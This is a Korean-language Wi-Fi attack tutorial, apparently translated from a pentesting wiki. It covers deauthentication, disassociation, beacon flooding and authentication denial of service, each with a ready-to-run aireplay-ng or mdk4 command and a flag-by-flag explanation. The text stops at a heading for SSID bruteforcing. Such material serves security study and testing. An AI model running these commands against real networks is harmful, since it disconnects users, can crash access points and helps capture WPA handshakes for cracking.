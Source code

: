 **비인증** 공격은 Wi-Fi 해킹에서 널리 사용되는 방법으로, "관리" 프레임을 위조하여 **장치를 네트워크에서 강제로 연결 끊기**는 것입니다. 이 암호화되지 않은 패킷은 클라이언트가 합법적인 네트워크에서 온 것처럼 속여, 공격자가 크랙 목적으로 WPA 핸드셰이크를 수집하거나 네트워크 연결을 지속적으로 방해할 수 있게 합니다. 이 전술은 그 단순함으로 인해 경각심을 불러일으키며, 네트워크 보안에 중대한 영향을 미칩니다.

**Aireplay-ng를 사용한 비인증**
```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
- -0은 비인증을 의미합니다.
- 1은 전송할 비인증의 수입니다(원하는 만큼 여러 개를 전송할 수 있습니다); 0은 지속적으로 전송함을 의미합니다.
- -a 00:14:6C:7E:40:80은 액세스 포인트의 MAC 주소입니다.
- -c 00:0F:B5:34:30:30은 비인증할 클라이언트의 MAC 주소입니다; 이 옵션이 생략되면 브로드캐스트 비인증이 전송됩니다(항상 작동하지는 않음).
- ath0는 인터페이스 이름입니다.

### 비연결 패킷

**비연결 패킷**은 비인증 패킷과 유사하게 Wi-Fi 네트워크에서 사용되는 관리 프레임의 일종입니다. 이 패킷은 장치(예: 노트북 또는 스마트폰)와 액세스 포인트(AP) 간의 연결을 끊는 역할을 합니다. 비연결과 비인증의 주요 차이점은 사용 시나리오에 있습니다. AP는 **네트워크에서 악성 장치를 명시적으로 제거하기 위해 비인증 패킷을 방출하는 반면, 비연결 패킷은 일반적으로 AP가 종료, 재시작 또는 이동 중일 때 전송되어 모든 연결된 노드의 연결을 끊어야 합니다.**

**이 공격은 mdk4(mode "d")로 수행할 수 있습니다:**
```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```
### **mdk4에 의한 더 많은 DOS 공격**

**여기** [**에서**](https://en.kali.tools/?p=864)**.**

**공격 모드 b: 비콘 플러딩**

가짜 AP를 클라이언트에 표시하기 위해 비콘 프레임을 전송합니다. 이로 인해 네트워크 스캐너와 드라이버가 충돌할 수 있습니다!
```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
**ATTACK MODE a: 인증 서비스 거부**

접근 가능한 모든 액세스 포인트(AP)에 인증 프레임을 전송하면, 특히 많은 클라이언트가 관련된 경우 이러한 AP가 과부하될 수 있습니다. 이 강한 트래픽은 시스템 불안정을 초래하여 일부 AP가 멈추거나 심지어 재설정될 수 있습니다.
```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
**ATTACK MODE p: SSID Probing and Bruteforcing**

